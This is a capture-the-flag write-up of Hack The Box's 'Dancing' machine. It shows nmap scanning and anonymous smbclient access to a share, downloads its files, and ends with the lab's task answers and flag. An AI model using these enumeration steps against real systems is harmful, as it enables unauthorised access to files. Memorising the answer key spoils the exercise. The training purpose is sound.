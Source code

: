 ```yaml
---
title: HackTheBox Dancing Writeup
authors: Samarth
categories: [HackTheBox , Starting Point - Tier 0]
tags: [Linux, SMB, Reconnaissance, Anonymous/Guest Access]
math: true
mermaid: true
---
```


![Dancing-HTB](/assets/images/starting-point/Dancing-HTB/banner.png)

## TL;DR

This writeup is based on the [__Dancing__](https://app.hackthebox.com/starting-point){:target="_blank"} machine, an easy-rated Windows box on Hack The Box. I began by scanning the target and found open `SMB ports (135, 139, and 445)`. Enumerating `SMB shares` revealed an accessible share named `WorkShares`, which contained directories belonging to two users: `Amy.J` and `James.P`. Inside these directories, I found two files: `worknotes.txt` and `flag.txt`. I downloaded `flag.txt`, read its contents, and captured the flag.


## Scanning Network

I started with a Nmap scan, I found ports 135, 139, 445 as Windows RPC, NetBIOS-ssn and Microsoft-ds, respectively. Let’s see the Nmap results.

```bash
nmap -sC -sV -A -T4 -Pn 10.129.129.86 -oN scan/normal.scan
Starting Nmap 7.94 ( https://nmap.org ) at 2025-02-15 12:38 IST
Nmap scan report for 10.129.129.86
Host is up (0.22s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m00s
| smb2-time: 
|   date: 2025-02-15T11:09:03
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

## Enumeration

`Windows RPC` is used for remote procedure calls on Windows systems. It's often associated with various Windows services. I can enumerate `RPC` service further using `rpcclient` or `wmiexec`.

`NetBION-ssn` is used for file and printer sharing in older Windows versions. NetBIOS could allow for enumeration of shares and users on the system. I can enumerate shares, users and other information using `nmblookup` or `enum4linux`.

`Microsoft-DS` is used by modern versions of Windows for SMB (Server Message Block). I can enumerate SMB shares, users and more using `smbclient` or `smbmap`.

Let's start wby checking available `SMB` shares with `smbclient`.

```bash
smbclient -L //10.129.129.86 --option='client min protocol=SMB2'        

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
```

## Exploitation

The `WorkShares` share is accessible, so I attempted to connect to it.

```bash
smbclient \\\\10.129.129.86\\WorkShares --option='client min protocol=SMB2'
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
mkfifo         more           mput           newer          notify         
open           posix          posix_encrypt  posix_open     posix_mkdir    
posix_rmdir    posix_unlink   posix_whoami   print          prompt         
put            pwd            q              queue          quit           
readlink       rd             recurse        reget          rename         
reput          rm             rmdir          showacls       setea          
setmode        scopy          stat           symlink        tar            
tarmode        timeout        translate      unlock         volume         
vuid           wdel           logon          listconnect    showconnect    
tcon           tdis           tid            utimes         logoff         
..             !              
```

I listed the files inside the `WorkShares` directory:

```bash
smbclient \\\\10.129.72.82\\WorkShares --option='client min protocol=SMB2'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 13:52:01 2021
  ..                                  D        0  Mon Mar 29 13:52:01 2021
  Amy.J                               D        0  Mon Mar 29 14:38:24 2021
  James.P                             D        0  Thu Jun  3 14:08:03 2021

		5114111 blocks of size 4096. 1734359 blocks available
```

There are two directories, `Amy.J` and `James.P`. I explored their contents.

```bash
smb: \> cd Amy.J
smb: \Amy.J\> ls
  .                                   D        0  Mon Mar 29 14:38:24 2021
  ..                                  D        0  Mon Mar 29 14:38:24 2021
  worknotes.txt                       A       94  Fri Mar 26 16:30:37 2021
5114111 blocks of size 4096. 1734197 blocks available
smb: \Amy.J\> get worknotes.txt 
getting file \Amy.J\worknotes.txt of size 94 as worknotes.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \Amy.J\> cd ..
smb: \> cd James.P\
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 14:08:03 2021
  ..                                  D        0  Thu Jun  3 14:08:03 2021
  flag.txt                            A       32  Mon Mar 29 14:56:57 2021
5114111 blocks of size 4096. 1734197 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \James.P\> 
```

I have found two files named as `worknotes.txt` and `flag.txt` which means I have got the flag.

```bash
cat flag.txt     
5f61c10dffbc77a704d76016a22f1664  
```

## Tasks

### What does the 3-letter acronym SMB stand for?

```plaintext
Server Message Block
```

### What port does SMB use to operate at?

```plaintext
445
```

### What is the service name for port 445 that came up in our Nmap scan?

```plaintext
microsoft-ds
```

### What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```plaintext
-L
```

### How many shares are there on Dancing?

```plaintext
4
```

### What is the name of the share we are able to access in the end with a blank password?

```plaintext
WorkShares
```

### What is the command we can use within the SMB shell to download the files we find?

```plaintext
get
```

### Submit root flag

```plaintext
5f61c10dffbc77a704d76016a22f1664
```

Thanks for reading this far. If you enjoyed the writeup, do support me [__here__](https://www.buymeacoffee.com/h4xplo1t){:target="_blank"}.